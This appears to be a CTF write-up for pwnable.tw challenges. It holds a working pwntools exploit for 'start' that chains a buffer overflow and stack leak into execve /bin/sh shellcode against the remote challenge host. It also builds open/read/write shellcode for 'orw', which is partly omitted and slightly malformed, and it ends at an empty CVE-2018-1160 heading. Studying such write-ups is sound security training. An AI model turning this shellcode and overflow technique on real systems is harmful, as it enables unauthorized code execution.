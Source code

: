 # pwn.tw

## 01 start
checksec, RWX segment existed. maybe shellcode can be used.

a ASM program, calling some sys_call, like `sys_write`/'sys_read`.
and reading process is a BOF vulnerability, length of buffer is enough for a simple ROP.

hijack the second argu of `sys_write` to print out the stack info, then ret2shellcode.

```py
#!/bin/python3

from pwn import *

# io = process("./start")
# gdb.attach(io, 'b*0x08048087\nc')
io = remote("chall.pwnable.tw", 10000)

payload = b''
payload += b'A' *20
payload += p32(0x08048087)

io.sendafter(b'CTF:', payload)

stack_addr = u32(io.recv(4))
buf_addr = stack_addr - 4

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

payload2 = b''
payload2 += b'A'*20
payload2 += p32(buf_addr + 20 +4 )
payload2 += shellcode

io.sendline(payload2)

io.interactive()
```

## 02 orw

a shellcode challenage, but syscalls we can use is limited to open/read/write.

we can not launch a shell directly, but these three calls are enough to read a flag with known path (which is provided by the hint).

we will open the flag and read it to buffer, and write it to stdout.

man syscalls and `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`:
```
int open(const char *pathname, int flags);		#define __NR_read 3
ssize_t read(int fd, void *buf, size_t count);		#define __NR_open 5
ssize_t write(int fd, const void *buf, size_t count);	#define __NR_write 4

path is `/home/orw/flag`, 14 bytes.
```
- pwntools
	- pwnlib.shellcraft
		```py
		shellcraft.i386.pushstr('/home/orw/flag')
		shellcraft.i386.linux.syscall('SYS_open', 'esp')
		shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
		shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
		```
		that is:	
		```
		push '/home/orw/flag\x00'
		call open('esp')
		call read('eax', 'esp', 0x50)
			// eax is previous call's ret value, which is opened fd.
		call write(1, 'esp', 0x50)
		```
- asm
	- argu:
		- eax: calling num
		- ebx/ecx/edx/esi/edi: argu1/2/3/4/5
	- crafting:
		- push '/home/orw/flag\x00'
		```
		'///h' <-esp
		'ome/'
		'orw/'
		'flag'
		'\x00'
		```
		crafting the asm code:
		
		```py
		shellcode = ''
		shellcode += 'xor eax, eax\n push eax\n'
		
		temp = hex(u32(b'flag'))
		shellcode += 'push '+ temp + '\n'

		temp = hex(u32(b'orw/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'ome/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'///h'))
		shellcode += 'push '+ temp + '\n'
		```

		- call `open('esp')`
			- eax: 5
			- ebx: buf(esp)
			- call
		
		```py
		shellcode += 'push 0x5\n pop eax\n'
		shellcode += 'mov ebx, esp\n'
		shellcode += 'int 0x80\n'
		```
		
		- call `read('eax', 'esp', 0x50)`
			- eax: 3
			- ebx: eax(fd)
			- ecx: esp(buf)
			- edx: 0x50(len)
		
		```py
		shellcode += 'mov ebx, eax\n'
		shellcode += 'push 0x3\n pop eax\n'
		shellcode += 'mov ecx, esp\n'
		shellcode += 'push 0x50\n pop edx'
		shellcode += 'int 0x80\n'
		```

		... omitted...

## 03 CVE-2018-1160

